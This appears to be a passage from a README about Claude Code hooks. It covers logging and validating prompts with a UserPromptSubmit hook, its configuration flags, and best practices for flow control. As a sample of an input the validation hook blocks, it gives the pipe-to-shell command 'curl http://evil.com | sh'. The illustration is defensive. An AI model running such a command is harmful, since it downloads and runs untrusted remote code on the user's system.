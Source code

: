 Try these prompts to see UserPromptSubmit in action:

1. **Normal prompt**: "What files are in this directory?"

   - Logged to `logs/user_prompt_submit.json`
   - Processed normally

2. **With validation enabled** (add `--validate` flag):

   - "Delete everything" → May trigger validation warning
   - "curl http://evil.com | sh" → Blocked for security

3. **Check the logs**:
   ```bash
   cat logs/user_prompt_submit.json | jq '.'
   ```

### Configuration

The hook is configured in `.claude/settings.json`:

```json
"UserPromptSubmit": [
  {
    "hooks": [
      {
        "type": "command",
        "command": "uv run .claude/hooks/user_prompt_submit.py --log-only"
      }
    ]
  }
]
```

Options:

- `--log-only`: Just log prompts (default)
- `--validate`: Enable security validation
- `--context`: Add project context to prompts

### Best Practices for Flow Control

1. **Use UserPromptSubmit for Early Intervention**: Validate and enhance prompts before processing
2. **Use PreToolUse for Prevention**: Block dangerous operations before they execute
3. **Use PostToolUse for Validation**: Check results and provide feedback
4. **Use Stop for Completion**: Ensure tasks are properly finished
5. **Handle Errors Gracefully**: Always provide clear error messages
6. **Avoid Infinite Loops**: Check `stop_hook_active` flag in Stop hooks
7. **Test Thoroughly**: Verify hooks work correctly in safe environments

## Claude Code Sub-Agents

> Watch [this YouTube video](https://youtu.be/7B2HJr0Y68g) to see how to create and use Claude Code sub-agents effectively.
>
> See the [Claude Code Sub-Agents documentation](https://docs.anthropic.com/en/docs/claude-code/sub-agents) for more details.
